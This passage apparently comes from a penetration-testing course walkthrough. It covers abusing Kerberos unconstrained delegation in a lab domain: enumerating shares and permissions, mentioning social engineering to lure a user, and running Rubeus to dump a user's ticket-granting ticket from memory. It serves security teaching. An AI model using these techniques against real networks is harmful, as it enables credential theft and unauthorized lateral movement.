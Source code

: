 ```
PS C:\> net share

Share name   Resource                        Remark

-------------------------------------------------------------------------------
C$           C:\                             Default share
IPC$                                         Remote IPC
ADMIN$       C:\Windows                      Remote Admin
shares       C:\shares
The command completed successfully.
```

> Listing 3 - Listing shares on FILES01

By inspecting the shares further, we find an **engineering** share in the **C:\shares** folder. Let's inspect the permissions using **icacls**.

```
PS C:\Tools> icacls C:\shares\engineering
C:\shares\engineering CORP\Administrator:(OI)(CI)(F)
                      BUILTIN\Administrators:(OI)(CI)(F)
                      CORP\Engineering:(OI)(CI)(M)
                      NT AUTHORITY\SYSTEM:(OI)(CI)(F)

Successfully processed 1 files; Failed processing 0 files
```

> Listing 4 - Checking share permissions on FILES01

As indicated in Listing 4, there is a share on the machine that is accessible by members of the _CORP\Engineering_ group.

A computer configured with unconstrained delegation will store the connecting user's TGT regardless of whether it connects to a backend service or not. If a system administrator removes a service but forgets to turn off unconstrained delegation on the AD object, the object can still be abused by attackers.

At this point, we either have to wait for someone to visit the share, or conduct social engineering to trick someone into visiting it. In our example, we'll simulate this by logging in to the _CLIENT02_ machine with the _james_ user.

Upon logging in, we'll find that the _Engineering Share_ is automatically mapped and because of this, the TGT for _james_ should be stored in memory on _FILES01_.

Let's rerun our Rubeus command.

```
PS C:\Tools> .\Rubeus.exe dump /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.3


  UserName                 : james
  Domain                   : CORP
  LogonId                  : 0x9e764
  UserSID                  : S-1-5-21-3515682028-2106700410-3524882512-1601
  AuthenticationPackage    : Kerberos
  LogonType                : Network
  LogonTime                : 5/12/2023 8:17:08 AM
  LogonServer              :
  LogonServerDNSDomain     : CORP.COM
```